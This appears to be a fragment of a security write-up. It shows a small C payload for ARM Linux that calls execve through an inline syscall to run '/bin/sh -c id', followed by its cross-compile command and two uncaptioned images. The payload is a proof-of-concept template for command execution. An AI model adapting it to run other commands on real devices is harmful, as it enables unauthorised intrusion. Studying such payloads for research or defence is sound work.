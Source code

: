 ```c 
#include <sys/syscall.h>
void _start() {
   char *arg0="/bin/sh";

   char *arg1="-c";

   char *arg2="id";


    char *args[] = {arg0, arg1, arg2, 0};
    __asm__ volatile (
        "mov r7, %0\n\t"        
        "mov r0, %1\n\t"        
        "mov r1, %2\n\t"        
        "mov r2, #0\n\t"       
        "svc #0\n\t" 
        :
        : "i"(11), "r"(arg0), "r"(args)
        : "r0", "r1", "r2", "r7"
    );

}
///opt/cross/bin/arm-linux-musleabi-gcc -nostdlib -O0 -fno-pic -fno-builtin -o payload payload.c
```


![](image/image_2Vn468KPzl.png)

![](image/image_uOfRp9EP-i.png)
